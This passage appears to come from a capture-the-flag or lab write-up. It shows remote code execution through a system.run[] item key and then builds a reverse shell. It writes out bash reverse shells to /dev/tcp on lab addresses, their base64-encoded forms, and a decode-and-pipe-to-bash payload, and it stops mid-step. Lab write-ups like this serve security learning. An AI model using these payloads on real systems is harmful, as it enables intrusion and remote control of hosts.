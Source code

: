 <figure><img src="../../.gitbook/assets/image (23) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then click the test button and the get value, it will output the `id` command so we got a RCE

So we can try a reverse shell that we double encode to bypass any errors or special character problems:

```
echo "bash -i >& /dev/tcp/10.10.14.94/9898 0>&1 " | base64
```

Let's try only base64 for now:

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1) (1).png" alt=""><figcaption><p>YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85ODk4IDA+JjEgCg</p></figcaption></figure>

It did not work, the fact that we have some + in the command bothers me so if we add some double spaces in between each one of the spaces:

```
echo "bash  -i  >&  /dev/tcp/10.10.14.166/9898  0>&1  " | base64
```

so in the key parameter:

```
system.run[echo YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC4xNjYvOTg5OCAgMD4mMSAgCg | base64 | bash]
```

the final version of the payload was with port 443 so:

